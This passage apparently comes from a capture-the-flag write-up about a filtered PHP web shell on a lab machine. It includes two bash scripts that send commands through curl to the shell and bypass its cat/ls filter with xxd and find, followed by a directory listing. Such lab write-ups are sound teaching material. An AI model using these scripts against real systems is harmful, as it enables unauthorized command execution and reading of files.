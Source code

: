 ### Web Shell

Although the web shell allows remote execution of commands in the context of `www-data`, it filters common commands such as `cat` and `ls` and in return, displays unhelpful messages like "Nice try skid" or "Get out skid".

Essentially, `cat` reads a file's content and prints it to standard output in ASCII. If you've read permissions for the file, you can use `xxd` to achieve the same result, by first showing the content in hexadecimal, and then converting it back to ASCII before printing to standard output.

I wrote `cat.sh` to establish the idea of using `xxd` as the replacement for `cat`.

{% highlight bash linenos %}
#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="xxd -p $1 | tr -d '\n'"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '29!d' \
| sed -r -e 's/^\s+//' -e 's/  <\/div>//' \
| xxd -p -r
{% endhighlight %}

Another script I wrote &mdash; `ls.sh`, uses `find` as the replacement for `ls`.

{% highlight bash linenos %}
#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="find $1 -ls"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '/<h5>/,/<\/div>/!d' \
| sed -r -e '1d' -e '$d' -e 's/^\s+//' \
| column -t
{% endhighlight %}

Using `ls.sh` to list the files along with their permissions in a directory, is easy.
```
# ./ls.sh /var/www/html
396954  4     drwxr-xr-x  2  root  root  4096     Mar  8  23:48  /var/www/html
393294  4     -rw-r--r--  1  root  root  1560     Mar  4  14:09  /var/www/html/login.html
393280  4     -rw-r--r--  1  root  root  3145     Mar  4  14:09  /var/www/html/contact.html
393341  4     -rw-r--r--  1  root  root  84       Mar  5  04:53  /var/www/html/.hint
393297  4     -rw-r--r--  1  root  root  111      Mar  4  14:09  /var/www/html/robots.txt
393292  4     -rw-r--r--  1  root  root  1425     Mar  4  14:09  /var/www/html/index.html.bak
393286  1152  -rw-r--r--  1  root  root  1177950  Mar  4  14:09  /var/www/html/dev_shell_back.png
393293  4     -rw-r--r--  1  root  root  1925     Mar  4  14:09  /var/www/html/lat_memo.html
393301  336   -rw-r--r--  1  root  root  340400   Mar  4  14:09  /var/www/html/WIP.jpg
393295  4     -rw-r--r--  1  root  root  4086     Mar  4  14:09  /var/www/html/news.html
393275  4     -rw-r--r--  1  root  root  2579     Mar  8  23:43  /var/www/html/about.html
393288  4     -rw-r--r--  1  root  root  1361     Mar  4  14:09  /var/www/html/dev_shell.php.bak
393299  28    -rw-r--r--  1  root  root  26357    Mar  4  14:09  /var/www/html/school_badge.png
393287  4     -rw-r--r--  1  root  root  1396     Mar  4  14:09  /var/www/html/dev_shell.php
397124  4     -rw-r--r--  1  root  root  1425     Mar  4  14:09  /var/www/html/index.html
```